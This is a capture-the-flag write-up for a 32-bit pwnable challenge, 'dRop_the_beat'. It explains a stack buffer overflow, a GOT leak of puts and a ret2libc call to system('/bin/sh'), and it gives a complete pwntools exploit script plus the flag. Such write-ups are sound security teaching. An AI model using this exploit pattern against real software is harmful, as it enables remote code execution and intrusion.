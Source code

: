 # dRop_the_beat

## Pwnable - Points: 1

> dRop the Beat DJ!!
>
> <br>
>
> <br>
>
> Author: Y311J(신재욱)
>
> <br>
>
> <br>
>
> <b>nc prob.vulnerable.kr 20002
>
> [drop_the_beat_easy](drop_the_beat_easy)
>
> [libc.so.6](libc.so.6)
>

The binary lets you read 300 bytes from `stdin` into 100 bytes buffer, so there is a buffer overflow. Lets check the enabled security mechanisms:

	$ checksec drop_the_beat_easy
	    Arch:     i386-32-little
    	RELRO:    Partial RELRO
    	Stack:    No canary found
    	NX:       NX enabled
    	PIE:      No PIE (0x8048000)

No canary found, so we get code execution, but NX is enabled, so we can not execute shellcode from the stack. The given `libc` already hints that we should `ret2libc`, but we have to leak the `libc` base address. We can jump to the function `puts` with the address of puts in `GOT` as argument to print the actual address of `puts` out and jump back to the beginning of the `main` function afterwards. Since it is 32 bit binary, the arguments are passed on the stack. With the leaked address and the given `libc` we can calculate the correct offsets of `puts` and `system` and the string `/bin/sh`.

In the second stage we can overflow the buffer to jump to the `system` function with the argument `/bin/sh` to spawn the shell and get the flag. 


Exploit script:

```python
from pwn import *

libc = ELF('libc.so.6')
e = ELF('drop_the_beat_easy')

# p = process('drop_the_beat_easy')
p = remote('prob.vulnerable.kr', 20002)

print p.recvuntil('2) No Beat For You..!\n')

p.sendline('1')
print p.recvuntil('Give Me a Beat!!\n')

p.sendline('A' * 100 + 'A' * 4 + p32(e.symbols['puts']) + p32(e.symbols['main']) + p32(e.got['puts']))
print p.recvuntil('AWESOME!\n')

puts = u32(p.recv(4))
print hex(puts)

libc_base = puts - libc.symbols['puts']
print 'libc_base: ' + hex(libc_base)
system = libc_base + libc.symbols['system']
sh = libc_base + libc.search("/bin/sh").next()

print p.recvuntil('2) No Beat For You..!\n')

p.sendline('1')
print p.recvuntil('Give Me a Beat!!\n')

p.sendline('A' * 100 + 'A' * 4 + p32(system) + 'A' * 4 + p32(sh))

p.interactive()
```

flag: `KorNewbie{R0PR0PR@P~@!#GrE4T_3EaT_!ROPROPROP*@(#}`